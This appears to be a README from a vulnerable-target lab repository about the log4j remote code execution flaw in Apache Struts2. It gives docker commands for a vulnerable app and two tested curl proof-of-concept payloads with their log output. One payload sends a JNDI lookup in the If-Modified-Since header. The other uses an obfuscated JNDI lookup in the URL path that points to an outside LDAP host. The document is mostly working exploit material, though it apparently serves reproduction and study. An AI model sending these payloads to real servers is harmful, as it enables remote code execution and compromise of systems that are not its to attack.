


# Apache Struts2 log4j RCE

## vulnerable app

```
docker pull vultarget/log4j2-struts2-showcase:2.14.1

docker run --name struts2-showcase -d -p 8360:8080 vultarget/log4j2-struts2-showcase:2.14.1
```

## Poc1

```
curl -vv -H "If-Modified-Since: \${jndi:ldap://localhost:80/abc}" http://localhost:8080/struts2-showcase/struts/utils.js
```

Logs

```
2021-12-11 17:58:45,991 WARN  [http-nio-8080-exec-2] dispatcher.DefaultStaticContentLoader (DefaultStaticContentLoader.java:241) - Invalid If-Modified-Since header value: '${jndi:ldap://localhost:80/abc}', ignoring
```

I've tested it



## Poc2

```
curl -vv http://localhost:8080/struts2-showcase/$%7Bjndi:ldap:$%7B::-/%7D/10.0.0.6:1270/abc%7D/
```

Logs

```
2021-12-13 10:26:47,908 WARN  [http-nio-8080-exec-7] mapper.DefaultActionMapper (DefaultActionMapper.java:419) - /${jndi:ldap:${::-/}/10.0.0.6:1270/abc} did not match allowed namespace names [a-zA-Z0-9._/\-]* - default namespace / will be used!
```

I've tested it

